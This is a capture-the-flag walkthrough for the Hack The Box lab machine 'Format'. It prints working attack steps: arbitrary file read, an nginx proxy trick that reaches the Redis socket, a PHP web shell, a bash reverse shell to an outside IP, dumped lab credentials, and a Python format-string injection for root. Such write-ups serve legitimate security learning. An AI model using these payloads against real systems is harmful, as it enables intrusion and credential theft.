 ## Format

https://app.hackthebox.com/machines/Format

### User Flag

Basic enumeration lead us to app.microblog.htb, microblog.htb and microblog.htb:3000/cooper/microblog.

The last one has the source code of microblog.htb.

<br>

#### File Read

Inserting a txt in our blog, we get this body request.

```
id=vy36c18xkkb&txt=inserting
```

This id refers to the file created inside /content. We discover this by looking the 'sunny' directory on source code.

So we can change the name of the file being stored. Also, this id is stored in /content/order.txt.

If we insert a php file, it will be read, not executed.

We can read files by replacing the id and accessing our blog.

```
id=/etc/passwd&txt=inserting
```

We create a script to read files like ippsec in `fileread.py`.

<br>

#### File Write
Reading /etc/nginx/sites-enabled/default, this is interesting:

```
location ~ /static/(.*)/(.*) {
                resolver 127.0.0.1;
                proxy_pass http://$1.microbucket.htb/$2;
        }
```

We can write files only if our user is pro.

```php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

This is the function.
```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```

So we need to abuse the above nginx configuration to make our user pro.
```
proxy_pass http://$1.microbucket.htb/$2;
```

If we access something like `microblog.htb/static/css/file.txt` the proxy will return `css.microbucket.htb/file.txt`.

So we use this to access the redis socket and upgrade our user to Pro:
```
HSET /static/unix%3a///var/run/redis/redis.sock%3aippsec%20pro%20true%20/a HTTP/1.1
Host: microblog.htb
```

Now we have permission to write into /uploads.
```
id=../uploads/shell.php&txt=<?php SYSTEM($_REQUEST['cmd']); ?>
```

Get reverse shell using POST.
```
POST /uploads/shell.php HTTP/1.1
Host: test.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: username=vtbgbeskeu5ebeuru1vo81d862
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.3/1337+0>%261'
```

#### Dump Redis Credentials
Interact with redis and discover credentials: cooper:zooperdoopercooper.
```
redis-cli -s /var/run/redis/redis.sock

keys *

HGETALL cooper.cooper
```

<br>

### Privilege Escalation

Cooper can run **license** as root:
```bash
sudo -l
(root) /usr/bin/license
```

Reading this binary, we se that there is a secret readable only by root.
```python3
secret = [line.strip() for line in open("/root/license/secret")][0]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))

prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

The trick here is that we can control what happens in `format` with last-name, so we crete a new user in redis.
```
hset rooted username rooted

hset rooted first-name rootedUser

hset rooted last-name "{license.__init__.__globals__[secret]}"

sudo license -p rooted
```
